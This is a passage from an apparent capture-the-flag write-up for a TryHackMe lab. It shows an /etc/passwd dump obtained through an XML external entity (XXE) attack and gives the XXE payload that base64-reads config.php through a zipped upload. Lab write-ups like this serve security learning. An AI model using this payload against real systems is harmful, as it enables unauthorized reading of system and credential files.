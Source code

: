 Now we have the `/etc/passwd` file of the system! 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
[REDACTED]:x:1002:1002::/home/george:/bin/bash
```

By looking at this we now know that the system has a user names `george`.

Now lets also get a the config file using the same technique as shows in the above linked articles, to get the config file you have to just change this. 

```bash
<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

And now you can zip the file like we did earlier! 

And now after upload the file you should have this! 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Empline/Images/Untitled%209.png)